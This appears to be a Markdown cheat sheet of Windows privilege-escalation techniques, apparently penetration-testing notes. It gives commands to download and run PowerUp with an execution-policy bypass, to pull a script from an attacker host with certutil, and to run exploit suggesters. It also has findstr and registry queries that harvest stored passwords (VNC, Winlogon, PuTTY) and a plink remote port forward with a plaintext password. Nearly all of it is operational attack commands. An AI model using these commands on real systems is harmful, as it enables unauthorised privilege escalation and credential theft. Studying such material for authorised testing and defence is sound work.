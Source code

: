 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`

- Search for passwords 

  - In Files

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
    
  - In Registry
  
    ```
    # VNC
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    # Windows autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    # SNMP Paramters
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    # Putty
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

    # Search for password in registry
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    ```
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
  - ```# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080```
